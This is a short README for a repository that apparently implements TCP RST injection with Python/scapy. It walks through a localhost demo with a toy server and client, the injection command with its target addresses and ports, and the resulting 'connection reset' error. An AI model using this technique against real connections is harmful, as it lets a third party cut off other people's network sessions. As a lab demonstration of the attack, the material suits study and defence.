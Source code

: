 This repository contains a python/scapy implementation of the TCP RST injection showcased in the included c file. 

Howto:
```
$ indicates command to be executed
> indicates output on the console
```

start the server

$ python server.py
> TCP Server binding to port 5000

start the client

$ python client.py

record the port number the server reports (47413 in the running example)

> I got a connection from 127.0.0.1:47413

start the injection

$ python tcprst.py -D 127.0.0.1 -d 5000 -S 127.0.0.1 -s 47413

wait until the server exits with the a message:

> Traceback (most recent call last):
>   File "server.py", line 15, in <module>
>     data = client_socket.recv(512)
> socket.error: [Errno 104] Connection reset by peer

done!

More info on TCP/RST injection:
http://kerneltrap.org/node/3072
http://www.blackhatacademy.org/security101/TCP-RST_Injection

Source of the c file: 
http://packetstormsecurity.org/files/38708/tcprst.c.html